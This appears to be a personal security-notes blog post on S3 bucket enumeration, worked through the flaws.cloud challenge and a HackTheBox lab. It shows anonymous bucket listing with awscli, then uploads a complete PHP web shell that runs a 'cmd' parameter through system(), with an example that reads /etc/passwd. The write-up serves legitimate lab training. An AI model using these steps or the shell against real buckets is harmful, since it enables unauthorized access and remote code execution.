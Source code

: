 ```yaml
---
description: >-
  S3 Buckets enumeration
title: S3 Buckets              # Add title here
date: 2023-05-23 08:00:00 -0600                           # Change the date to match completion date
categories: [16 Cloud, Cloud - Enumeration]          # Change Templates to Writeup
tags: [cloud, s3 enum, buckets, aws]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Basic Enumeration

The site `flaws.cloud` is hosted as an S3 bucket. This is a great way to host a static site, similar to hosting one via github pages. Some interesting facts about S3 hosting: When hosting a site as an S3 bucket, the bucket name (`flaws.cloud`) must match the domain name (`flaws.cloud`). Also, S3 buckets are a global name space, meaning two people cannot have buckets with the same name. The result of this is you could create a bucket named `apple.com` and Apple would never be able host their main site via S3 hosting.
You can determine the site is hosted as an S3 bucket by running a DNS lookup on the domain, such as:

```bash
dig +nocmd flaws.cloud any +multiline +noall +answer
# Returns:
# flaws.cloud.            5 IN A  54.231.184.255
```

Visiting `54.231.184.255` in your browser will direct you to `https://aws.amazon.com/s3/`
So you know `flaws.cloud` is hosted as an S3 bucket.

You can then run:
```bash
nslookup 54.231.184.255
# Returns:
# Non-authoritative answer:
# 255.184.231.54.in-addr.arpa     name = s3-website-us-west-2.amazonaws.com
```

So we know it's hosted in the AWS region us-west-2
Side note (not useful for this game): All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS. In this case, flaws.cloud can also be visited by going to `http://flaws.cloud.s3-website-us-west-2.amazonaws.com/`

You now know that we have a bucket named `flaws.cloud` in `us-west-2`, so you can attempt to browse the bucket by using the aws cli by running:
```bash
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

If you happened to not know the region, there are only a dozen regions to try. You could also use the GUI tool cyberduck to browse this bucket and it will figure out the region automatically.

Finally, you can also just visit `http://flaws.cloud.s3.amazonaws.com/` which lists the files due to the permissions issues on this bucket.

### Bucket Listing

On AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files. A number of people accidentally open them up with permissions that are too loose. Just like how you shouldn't allow directory listings of web servers, you shouldn't allow bucket listings.

We can interact with this S3 bucket with the aid of the awscli utility. It can be installed on Linux using the
command 

```bash
apt install awscli
```

First, we need to configure it using the following command. We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).
```bash
aws configure

aws configure          
AWS Access Key ID [None]: Temp
AWS Secret Access Key [None]: Temp
Default region name [None]: Temp
Default output format [None]: Temp
```
> Sometimes the bucket is not properly configured and if that is the case, we can fill this configuration with any random value. However sometimes the bucket does actually requires valid credentials, if that is the case you're going to need your own AWS account for this. You just need the [free tier](https://aws.amazon.com/free).
{: .prompt-warning }

We can list all of the S3 buckets hosted by the server by using the `ls` command.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls

2023-05-23 20:30:11 thetoppers.htb
```

We can also use the ls command to list objects and common prefixes under the specified bucket.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-05-23 20:30:11          0 .htaccess
2023-05-23 20:30:11      11952 index.php
```

### File Upload / Reverse Shell

`awscli` has got another feature that allows us to copy files to a remote bucket. If we know the web script language such as PHP. We can try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.

We can use the following PHP simple backdoor which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command, it can be found at `/usr/share/webshells/php/simple-backdoor.php`

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```
Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp simple-backdoor.php s3://thetoppers.htb
```

Finally, we can visit our web shell via web as follows:
![S3-RCE-Webshell](/assets/img/Pasted image 20230523191126.png)